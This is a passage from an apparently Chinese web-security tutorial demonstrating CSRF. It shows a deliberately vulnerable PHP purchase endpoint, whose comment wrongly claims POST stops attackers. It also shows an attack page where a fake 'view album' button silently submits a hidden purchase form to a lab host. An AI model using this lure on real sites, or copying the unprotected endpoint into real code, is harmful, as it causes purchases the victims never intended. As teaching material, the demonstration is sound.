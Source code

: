       </div><pre class="hljs xml"><code><span class="php"><span class="hljs-meta">&lt;?php</span>
$username = $_COOKIE[<span class="hljs-string">'username'</span>];
<span class="hljs-comment">// 换为post了，可以规避黑客直接的提交</span>
$productId = $_POST[<span class="hljs-string">'pid'</span>];
<span class="hljs-comment">// 这里进行购买操作</span>
<span class="hljs-comment">//store_into_database($username, $productId);</span>
<span class="hljs-meta">?&gt;</span></span>
<span class="hljs-tag">&lt;<span class="hljs-name">meta</span> <span class="hljs-attr">charset</span>=<span class="hljs-string">"utf-8"</span> /&gt;</span>
<span class="php"><span class="hljs-meta">&lt;?php</span>
<span class="hljs-keyword">echo</span> $username . <span class="hljs-string">'买入商品：'</span> . $productId;
<span class="hljs-meta">?&gt;</span></span></code></pre>
<p>黑客代码如下：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<!DOCYTPE HTML>
<html>
    <head>
        <meta charset=&quot;utf-8&quot; />
        <script src=&quot;https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js&quot;></script>
    </head>
    <body>
        <button id=&quot;clickme&quot;>点我看相册</button>
        <script>
            $('#clickme').on('click', function () {
                // 用户再不知情的情况下，提交了表单，服务器这边也会以为是用户提交过来的。
                $('#myform').submit();
            });
        </script>
        <form id=&quot;myform&quot; style=&quot;display:none;&quot; target=&quot;myformer&quot; method=&quot;post&quot; action=&quot;http://myhost:8082/lab/xsrflab/submit.php&quot;>
            <input type=&quot;hidden&quot; name=&quot;pid&quot; value=&quot;1&quot;>
        </form>
        <iframe name=&quot;myformer&quot; style=&quot;display:none;&quot;></iframe>
    </body>
</html>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs xml"><code><span class="hljs-tag">&lt;<span class="hljs-name">!DOCYTPE</span> <span class="hljs-attr">HTML</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">html</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">head</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">meta</span> <span class="hljs-attr">charset</span>=<span class="hljs-string">"utf-8"</span> /&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">script</span> <span class="hljs-attr">src</span>=<span class="hljs-string">"https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"</span>&gt;</span><span class="undefined"></span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span>
    <span class="hljs-tag">&lt;/<span class="hljs-name">head</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">body</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">button</span> <span class="hljs-attr">id</span>=<span class="hljs-string">"clickme"</span>&gt;</span>点我看相册<span class="hljs-tag">&lt;/<span class="hljs-name">button</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript">
            $(<span class="hljs-string">'#clickme'</span>).on(<span class="hljs-string">'click'</span>, <span class="hljs-function"><span class="hljs-keyword">function</span> (<span class="hljs-params"></span>) </span>{